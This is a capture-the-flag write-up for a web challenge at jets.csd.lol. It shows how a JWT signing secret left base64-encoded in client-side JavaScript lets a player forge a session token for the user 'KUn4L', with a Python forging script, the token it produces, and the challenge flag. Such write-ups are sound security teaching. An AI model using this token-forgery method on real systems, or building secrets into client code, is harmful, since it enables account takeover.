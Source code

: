 
# CTF

It seems like the Secret Society of K.U.N.A.L has invested in another business…Oh no.

If those planes come anywhere close to Santa—after his “adventure” in France—he’ll be scathed for good. Those reindeer don’t like inhaling kerosene!

Agent, we need you to infiltrate their system and gather some information for our engineers at Elves Intelligence. We believe the plane they’re using is a bit special…it may have been custom-built for K.U.N.A.L himself!

Here’s their website, agent: [https://jets.csd.lol/](https://jets.csd.lol/). Best of luck.

---

_**You are only allowed to test in the scope `https://jets.csd.lol/*`.** Blind brute-force request sending (e.g. using tools like DirBuster) can trigger Cloudflare rate limits. Do not attempt to bypass Cloudflare limits. Therefore, if you wish to brute-force, please limit your wordlists or attack scope._

# Solution

when we go to the website, we can see the sign up option on the screen, so let's sign up using random credentials.

Once we sign up, we can go to `Storage` in our DevTools, where we see a cookie named `token`.

We can easily decrypt the Value of the token using [jwt.io](https://jwt.io) which can help us decode this JSON Web Token.

Encrypted Token :

``` json
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE3MzU0NDM5MjcsImV4cCI6MTczNTQ0NzUyNywic3ViIjoidGVzdCJ9.qW6uinpVkLKBAbLpwTiGH9dxElp7mMosW9DhuwPfZ9U
```

Decrypted Token :

``` json
{
  "iat": 1735443927,
  "exp": 1735447527,
  "sub": "test"
}
```

Here, `iat` and `exp` are time stamps, and `sub` is the username

Now, let's look at the source code. an interesting part of the js code is:

```js
if (token) {
  const { sub } = jwtDecode(token, {
    secret: atob("MWRkMjJiYjQyNzBjYjE0NTcyMzIyZTAzNDI1YzAwNTgzZTAyYmY2M2Y1YzdhZjdkMmYzODdlMjRlN2Q1YjkzMQ=="),
  });
  console.log(sub);

  if (sub === atob("S1VuNEw=")) {
    footer.style.display = "block";
  }
```

In this example, we can see that `secret` is used for securing and validating JWT, and `sub` which is an username. both are encrypted in base64, so let's decode them.

```
secret : 1dd22bb4270cb14572322e03425c00583e02bf63f5c7af7d2f387e24e7d5b931
sub : KUn4L
```

to sign in KUn4L's account, we have to generate a JWT with their user id, time and we have to sign it with `secret` .

Here's the code in python that does exactly that:
```python
import jwt
import time

secret = "1dd22bb4270cb14572322e03425c00583e02bf63f5c7af7d2f387e24e7d5b931"

payload = {
    "iat": int(time.time()),  
    "exp": int(time.time()) + 3600, 
    "sub": "KUn4L"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```

let's run the code:

```
jstr$ python main.py
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE3MzU0NDcwNDEsImV4cCI6MTczNTQ1MDY0MSwic3ViIjoiS1VuNEwifQ.0cVePmTMBbm5u6RVaYSDOScCmpn5HOIJV8fhvcVbd6E
```

we can now switch the `token` value by putting this JWT instead of the old one.

when we reload the website after switching JWT, the third picture we see, is a Walmart bag, which has the flag: `csd{Wh47_D1D_KUN4I_do_7h1S_71M3}`

